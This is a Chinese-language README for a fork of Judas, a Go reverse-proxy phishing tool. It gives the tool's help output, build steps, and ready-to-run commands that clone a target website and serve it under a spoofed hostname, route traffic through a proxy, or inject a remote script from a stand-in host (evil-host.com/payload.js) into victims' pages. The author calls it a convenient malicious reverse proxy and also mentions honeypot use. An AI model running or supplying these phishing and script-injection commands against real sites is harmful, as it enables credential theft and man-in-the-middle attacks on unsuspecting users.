 Judas
=====

[英文（原版）wiki](https://github.com/JonCooperWorks/judas)

```
admin@admin judas % go run cmd/judas.go -h
Usage of judas:
  -address string
    	Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -inject-js string
    	URL to a JavaScript file you want injected.
  -insecure
    	Listen without TLS.
  -insecure-target
    	Not verify SSL certificate from target host.
  -plugins string
    	Colon separated file path to plugin binaries.
  -proxy string
    	Optional upstream proxy. Useful for torification or debugging. Supports HTTPS and SOCKS5 based on the URL. For example, http://localhost:8080 or socks5://localhost:9150.
  -proxy-ca-cert string
    	Proxy CA cert for signed requests
  -proxy-ca-key string
    	Proxy CA key for signed requests
  -ssl-hostname string
    	Hostname for SSL certificate
  -target string
    	The website we want to phish.
  -with-profiler
    	Attach profiler to instance.
```

## Building

Building `judas`

```
go build -trimpath -ldflags "-s -w" cmd/judas.go
```

Building `plugin`

```
go build -buildmode=plugin -trimpath -ldflags "-s -w"  examples/loggingplugin/loggingplugin.go
```
> `plugin` 功能无法在 `windows` 上使用

## 用法

HTTP

```
./judas --target https://target-url.com --insecure --address=0.0.0.0:80
```

HTTPS

```
./judas --target https://target-url.com --insecure --ssl-hostname phishingsite.com --address=0.0.0.0:443
```

HTTPS+Certificates

```
./judas -proxy-ca-cert cert.pem -proxy-ca-key privkey.pem -target https://target-url.com -ssl-hostname baidu.com -address 0.0.0.0:443
```

HTTP+proxy

```
./judas --target https://target-url.com --insecure --address=0.0.0.0:80 --proxy socks5://localhost:1080
```

HTTP+evil

```
./judas --target https://target-url.com --insecure --address=0.0.0.0:80 --inject-js https://evil-host.com/payload.js
```

## 其他

Judas在我看来不仅仅可以做一个便捷的恶意反代（一键插入恶意js代码或者中间人），还可以结合插件成为一个web蜜罐。

插件我在作者原有的 `searchloggingplugin` 以外，我增加了几个例子：`loggingplugin`(按日保存request) 、`responseprintplugin`(控制台输出response)、 `requestprintplugin`(控制台输出request)。

希望大家有想法可以一起共同交流